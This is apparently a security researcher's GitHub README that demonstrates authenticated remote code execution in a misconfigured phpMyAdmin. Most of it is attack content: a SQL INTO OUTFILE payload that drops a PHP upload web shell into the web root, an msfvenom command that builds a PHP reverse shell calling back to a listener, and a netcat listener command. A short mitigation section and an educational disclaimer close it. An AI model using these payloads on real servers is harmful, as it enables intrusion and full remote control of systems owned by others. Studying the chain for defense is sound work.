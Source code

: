 # Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload

> ⚠️ **Disclaimer**  
This repository is intended strictly for educational and research purposes.  
All actions were performed in a controlled lab environment.  
Unauthorized access or exploitation of systems you do not own is illegal and unethical.  
The author is not responsible for any misuse of the information provided here.

---

## 🧠 Overview

This repository demonstrates how an attacker can achieve **authenticated Remote Code Execution (RCE)** in a misconfigured **PhpMyAdmin** setup using the SQL query interface.

By abusing the `SELECT ... INTO OUTFILE` functionality, it is possible to write a malicious PHP web shell to the server's web root. That uploader is then used to upload a reverse shell, leading to complete remote access.

This is **not a new CVE** but rather a misconfiguration and privilege abuse chain.

---

## 📋 Attack Flow

1. Login to PhpMyAdmin with valid credentials
2. Use `SELECT INTO OUTFILE` to write a PHP uploader shell
3. Upload a reverse shell via that uploader
4. Trigger the uploaded shell to receive a reverse connection

---

## ⚙️ Lab Environment

- **Target URL**: `http://192.168.110.189:8080/phpmyadmin/`  
- **PhpMyAdmin Version**: 5.x  
- **OS**: Windows with WAMP (Web Root: `C:/wamp/www/`)  
- **Credentials**: Valid user login  
- **Listener IP**: `192.168.45.206`  
- **Port**: `4444`

---

## 💣 Exploit Commands

### 1. SQL Payload to Drop PHP Uploader

```sql
SELECT "<?php echo '<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">'; 
echo '<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>'; 
if( $_POST['_upl'] == \"Upload\" ) { 
  if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { 
    echo '<b>Upload Done.</b>'; 
  } else { 
    echo '<b>Upload Failed.</b>'; 
  } 
} ?>" 
INTO OUTFILE 'C:/wamp/www/uploader.php'
```

### 2. Generate Reverse Shell Using msfvenom

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw -o rev_shell.php
```

### 3. Start Listener

```bash
nc -nlvp 4444
```

---

## 📸 Screenshots

1. **SQL Query to Inject Uploader**  
   ![SQL Injection](./screenshots/sql_query.png)

2. **Accessing Uploader via Browser**  
   ![Uploader Interface](./screenshots/upload.png)

3. **Creating a payload**
    ![Payload](./screenshots/payload.png)

4. **Uploading rev_shell.php**  
   ![Shell Upload](./screenshots/rev_shell_upload.png)

5. **Shell Triggered and Connection Received**  
   ![Reverse Shell](./screenshots/trigger.png)
   
   ![Reverse Shell](./screenshots/reverse_shell.png)

---

## 🔐 Mitigation

- Restrict or disable the `FILE` privilege in MySQL for all web users.
- Set the `secure_file_priv` variable in MySQL to restrict file write paths.
- Prevent public access to PhpMyAdmin.
- Apply proper file system permissions to prevent MySQL from writing to web directories.
- Use a Web Application Firewall (WAF) and monitor logs for suspicious queries.

---

## 📚 References

- [PhpMyAdmin Project](https://www.phpmyadmin.net/)  

---


## 📝 Related Blog Post

Read the full write-up:  
👉 [Authenticated RCE in PhpMyAdmin via SQL File Write and Shell Upload](https://medium.com/@sakshi.infosec)

